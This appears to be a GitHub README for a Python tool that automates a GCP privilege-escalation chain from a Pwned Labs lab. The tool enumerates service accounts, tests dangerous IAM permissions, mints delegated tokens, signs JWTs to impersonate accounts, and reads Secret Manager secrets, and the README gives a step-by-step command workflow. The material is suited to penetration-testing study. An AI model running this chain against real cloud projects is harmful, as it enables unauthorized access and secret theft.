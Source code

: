 # GCP Service Account Enumeration Tool

**Author:** Tyler Ramsbey

Based on the techniques demonstrated in the Pwned Labs lab: **Pivot - GCP IAM Privilege Escalation by Chaining Permissions** ([Pwned Labs]([https://pwnedlabs.io/](https://pwnedlabs.io/labs/pivot-through-service-accounts-using-dangerous-permissions)))

---

## Description

This Python script automates several Google Cloud Platform (GCP) Service Account enumeration and privilege escalation steps, replacing manual `gcloud` and `curl` commands often used in penetration testing scenarios, particularly those involving chained permissions.

The tool allows you to:

- Authenticate using a Service Account key file or a pre-existing OAuth2 access token.
- Retrieve a project's IAM policy and extract/save Service Account emails.
- Test a set of potentially dangerous permissions (`testIamPermissions`) against a list of target Service Accounts.
- Generate access tokens for target Service Accounts via delegation (`generateAccessToken`).
- Sign JWTs as target Service Accounts and exchange them for access tokens (`signJwt`).
- List secrets within a project using Secret Manager.
- Access the content of specific secret versions.

## Prerequisites

- Python 3.6+
- Required Python libraries: `google-auth`, `google-api-python-client`, `requests`

## Installation

1. Clone or download the script:
   ```bash
   git clone https://github.com/your-repo/gcp-sa-enum-tool.git
   cd gcp-sa-enum-tool
   ```
2. Install required libraries:
   ```bash
   pip install google-auth google-api-python-client requests
   ```

## Usage

```bash
python3 gcp_sa_enum.py (--key-file <keyfile.json> | --token <access_token>) \
    --project-id <PROJECT_ID> \
    --action <ACTION> \
    [options]
```

### Arguments

**Authentication (choose one):**
- `--key-file <keyfile.json>`: Path to the Service Account JSON key file.
- `--token <access_token>`: An existing OAuth2 access token string.

**Required:**
- `--project-id <PROJECT_ID>`: Target GCP Project ID.
- `--action <ACTION>`: Enumeration action to perform (see Actions).

**Options (depending on action):**
- `--target-sas <file_or_list>`: Path to a file with Service Account emails (one per line), or a comma-separated list.
- `--delegate-sa <SA_EMAIL>`: Service Account email to use for delegation.
- `--impersonate-sa <SA_EMAIL>`: Service Account email to sign JWT as.
- `--secret-name <SECRET_ID>`: Secret name/ID to access.
- `--secret-version <VERSION>`: Secret version to access (default: `latest`).
- `--sa-output-file <FILENAME>`: Output file for discovered SAs (default: `discovered_sas.txt`).

### Actions

- `get-iam-policy`: Retrieve IAM policy, list Service Accounts, and save to `--sa-output-file`.
- `test-sa-perms`: Test `iam.serviceAccounts.getAccessToken`, `iam.serviceAccounts.signJwt`, `iam.serviceAccounts.implicitDelegation`, `iam.serviceAccounts.actAs` against target SAs.
- `generate-token-delegate`: Delegate through `--delegate-sa` to generate access tokens for target SAs.
- `sign-jwt`: Sign a JWT as `--impersonate-sa` and exchange it for an access token.
- `list-secrets`: List secrets in the project.
- `access-secret`: Access and print contents of a specific secret version.

## Output Files

- `discovered_sas.txt` (or custom via `--sa-output-file`): Discovered Service Account emails.
- `<sa_name>.token`: Access tokens generated via delegation or `sign-jwt`.

## Example Workflow

1. **Get IAM Policy & Discover SAs**  
   ```bash
   python3 gcp_sa_enum.py \
     --key-file staging-key.json \
     --project-id gr-proj-4 \
     --action get-iam-policy
   ```
2. **Test Permissions (Staging Token)**  
   ```bash
   python3 gcp_sa_enum.py \
     --key-file staging-key.json \
     --project-id gr-proj-4 \
     --action test-sa-perms \
     --target-sas discovered_sas.txt
   ```
3. **Delegate to Analytics SA**  
   ```bash
   python3 gcp_sa_enum.py \
     --key-file staging-key.json \
     --project-id gr-proj-4 \
     --action generate-token-delegate \
     --target-sas analytics@gr-proj-4.iam.gserviceaccount.com \
     --delegate-sa sql-424@gr-proj-4.iam.gserviceaccount.com
   ```
4. **Sign JWT as Platform-Middleware SA**  
   ```bash
   python3 gcp_sa_enum.py \
     --token "$(cat analytics_at_gr-proj-4.iam.gserviceaccount.com.token)" \
     --project-id gr-proj-4 \
     --action sign-jwt \
     --impersonate-sa platform-middleware@gr-proj-4.iam.gserviceaccount.com
   ```
5. **List & Access Secrets**  
   ```bash
   python3 gcp_sa_enum.py \
     --token "$(cat platform-middleware_at_gr-proj-4.iam.gserviceaccount.com.token)" \
     --project-id gr-proj-4 \
     --action list-secrets

   python3 gcp_sa_enum.py \
     --token "$(cat platform-middleware_at_gr-proj-4.iam.gserviceaccount.com.token)" \
     --project-id gr-proj-4 \
     --action access-secret \
     --secret-name payments
   ```

---

> **Disclaimer:**  
> This tool is for authorized testing and educational purposes only. Unauthorized use is illegal. Use responsibly.
